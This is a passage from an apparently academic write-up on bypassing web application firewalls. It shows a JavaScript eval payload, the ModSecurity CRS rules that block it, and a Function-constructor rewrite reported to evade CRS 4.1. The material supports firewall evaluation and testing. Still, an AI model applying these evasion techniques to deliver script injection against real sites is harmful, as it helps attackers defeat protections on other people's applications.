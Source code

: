 \begin{lstlisting}[style=basicStyle, language=Python]
eval('alert' + '(`concatenation`)')
\end{lstlisting}

When sent in a request directed to the web application protected by the evaluted web application firewall, this payload triggered the following blocking firewall rules:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=eval() blocked, label={lst:evalblocked}]
<payload>"eval('alert' + '(`concatenation`)')"</payload>

<message>"PHP Injection Attack: High-Risk PHP Function Call Found"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "331"] [id "933160"]<fileDetails>
<MatchedData>"eval('alert'   '(`concatenation`)')"</MatchedData>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"eval("</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"eval("</MatchedData>
\end{lstlisting}

It is apparent, that usage of the \verb|eval()| function is heavily blacklisted. Therefore, \verb|eval()| has been substituted by the \verb|Function()| constructor, as stated under Section~\ref{sec:functionconstructor}, in order to obscure the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=Function() constructor bypass, label={lst:funconbypass}]
[].constructor.constructor('alert'+'(`concatenation`)')()
\end{lstlisting}

The obscured payload successfully bypassed the ModSecurity firewall using \acrshort{crs} 4.1. Therefore, it is considered effective against the evaluated firewall configuration.

\subsubsection{Square Bracket Notation}
\label{sec:functionconstructorsingleevasbn}
The square bracket notation proposed under Section~\ref{sec:sbn} can be used to substitute the dot notation in statements accessing object properties. When using the \verb|Function()| constructor as mentioned under Section~\ref{sec:functionconstructor}, access to object properties is neccessary. Using the square bracket notation in such a case is standing to reason.

